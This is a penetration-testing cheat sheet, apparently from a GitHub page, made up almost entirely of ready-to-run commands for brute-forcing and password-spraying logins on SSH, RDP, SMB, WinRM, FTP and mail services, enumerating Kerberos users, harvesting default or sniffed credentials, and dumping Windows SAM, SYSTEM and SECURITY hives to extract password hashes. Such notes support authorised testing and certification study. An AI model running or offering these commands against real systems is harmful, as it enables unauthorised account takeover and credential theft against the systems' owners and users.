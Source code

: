 ## Remote Password Attacks

**NetExec**
````
$ netexec winrm <IP> -u user.list -p password.list
$ netexec <proto> <IP> -u user.list -p password.list
````
**Hydra**
````
$ hydra -L user.list -P password.list ssh://<IP>
$ hydra -L user.list -P password.list rdp://<IP>
$ hydra -L user.list -P password.list smb://<IP>
$ hydra -L user.list -P password.list ftp://<IP>
$ hydra -L user.list -P password.list -f IP smtp/pop3/imap
$ hydra -l username -P password.list <service>://<ip>
------------------------------------------------
- Metasploit SMB -
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197
msf6 auxiliary(scanner/smb/smb_login) > set rhosts <IP>
````
**Password Spraying**
````
$ netexec smb <IP>/24 -u <usernames.list> -p 'ChangeMe123!'
$ nxc smb <FQDN/IP> -u /tmp/userlist.txt -p '<password>' --local-auth --continue-on-success
$ nxc smb <FQDN/IP> -u /tmp/userlist.txt -p '<password>'  --continue-on-success
$ kerbrute passwordspray -d test.local domain_users.txt password123
````
**Enumerate Valid Users**
````
$ ./kerbrute_linux_amd64 userenum --dc <IP> --domain <domain> <list_of_users>
````
**Credential Stuffing**
````
- Default Creds -
https://github.com/ihebski/DefaultCreds-cheat-sheet
$ creds search linksys
$ creds search tomcat
$ creds search <service>
--------------------------------------------------------
- Network Traffic -
https://github.com/lgandx/PCredz
$ ./Pcredz -f demo.pcapng -t -v
````

## Windows Password Extraction

### SAM, SYSTEM, and SECURITY
````
> reg.exe save hklm\sam C:\sam.save
> reg.exe save hklm\system C:\system.save
> reg.exe save hklm\security C:\security.save
````
````
> C:\Windows\System32\config\SAM
> C:\Windows\System32\config\SECURITY
> C:\Windows\System32\config\SYSTEM
````
````
$ impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
$ impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

Dumping local SAM hashes (uid:rid:lmhash:nthash)

````